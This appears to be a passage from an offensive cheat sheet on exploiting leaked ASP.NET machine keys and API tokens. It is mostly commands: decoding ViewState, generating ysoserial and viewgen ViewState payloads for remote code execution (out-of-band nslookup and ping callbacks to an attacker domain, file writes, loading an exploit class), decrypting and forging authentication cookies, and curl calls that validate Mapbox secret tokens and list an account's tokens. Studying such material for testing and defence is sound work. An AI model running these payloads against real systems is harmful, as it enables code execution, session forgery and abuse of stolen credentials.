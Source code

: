 #### Decode ViewState

```powershell
$ viewgen --decode --check --webconfig web.config --modifier CA0B0334 "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="

$ AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata /wEPDwUKLTkyMTY0MDUxMg9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkbdrqZ4p5EfFa9GPqKfSQRGANwLs= --decrypt --purpose=viewstate  --modifier=CA0B0334 --macdecode
```


#### Generate ViewState for RCE

**NOTE**: Send a POST request with the generated ViewState to the same endpoint, in Burp you should **URL Encode Key Characters** for your payload.

```powershell
$ ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "cmd.exe /c nslookup <your collab domain>"  --decryptionalg="AES" --generator=ABABABAB decryptionkey="<decryption key>"  --validationalg="SHA1" --validationkey="<validation key>"
$ ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "echo 123 > c:\pwn.txt" --generator="CA0B0334" --validationalg="MD5" --validationkey="b07b0f97365416288cf0247cffdf135d25f6be87"
$ ysoserial.exe -p ViewState -g ActivitySurrogateSelectorFromFile -c "C:\Users\zhu\Desktop\ExploitClass.cs;C:\Windows\Microsoft.NET\Framework64\v4.0.30319\System.dll;C:\Windows\Microsoft.NET\Framework64\v4.0.30319\System.Web.dll" --generator="CA0B0334" --validationalg="SHA1" --validationkey="b07b0f97365416288cf0247cffdf135d25f6be87"

$ viewgen --webconfig web.config -m CA0B0334 -c "ping yourdomain.tld"
```


#### Edit cookies with the machine key

If you have the machineKey but the viewstate is disabled.

ASP.net Forms Authentication Cookies : https://github.com/liquidsec/aspnetCryptTools

```powershell
# decrypt cookie
$ AspDotNetWrapper.exe --keypath C:\MachineKey.txt --cookie XXXXXXX_XXXXX-XXXXX --decrypt --purpose=owin.cookie --valalgo=hmacsha512 --decalgo=aes

# encrypt cookie (edit Decrypted.txt)
$ AspDotNetWrapper.exe --decryptDataFilePath C:\DecryptedText.txt
```

### Mapbox API Token
A Mapbox API Token is a JSON Web Token (JWT). If the header of the JWT is `sk`, jackpot. If it's `pk` or `tk`, it's not worth your time.
```
#Check token validity
curl "https://api.mapbox.com/tokens/v2?access_token=YOUR_MAPBOX_ACCESS_TOKEN"

#Get list of all tokens associated with an account. (only works if the token is a Secret Token (sk), and has the appropiate scope)
curl "https://api.mapbox.com/tokens/v2/MAPBOX_USERNAME_HERE?access_token=YOUR_MAPBOX_ACCESS_TOKEN"
```
